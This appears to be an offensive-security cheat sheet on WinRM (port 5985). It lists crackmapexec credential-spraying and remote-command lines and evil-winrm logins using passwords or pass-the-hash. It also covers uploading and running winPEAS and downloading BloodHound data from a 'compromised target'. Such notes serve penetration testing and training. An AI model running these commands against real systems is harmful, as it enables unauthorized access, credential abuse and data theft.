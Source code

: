 # 5985 (WinRM)

## Enumeration

## Connection

#### crackmapexec

```bash
crackmapexec winrm <IP> -u <username(s)> -p <password(s)>
crackmapexec winrm <IP> -u <username(s)> -p <password(s)> -X "whoami"  # Run a command
```

#### evil-winrm

PowerShell Remoting

```bash
# Attempt to log into the machine
evil-winrm -i <IP> -u <user> -p <password>
evil-winrm -i <IP> -u <user> -H <hash>
# Specify a local directory to execute scripts from
evil-winrm -i <IP> -u <user> -p <password> -s .
```

Upload File to Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> upload winPEAS.exe
Evil-WinRM PS C:\Users\FSmith\Documents> .\winPEAS.exe
```

Download From from Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> download 123_BloodHound.zip
```
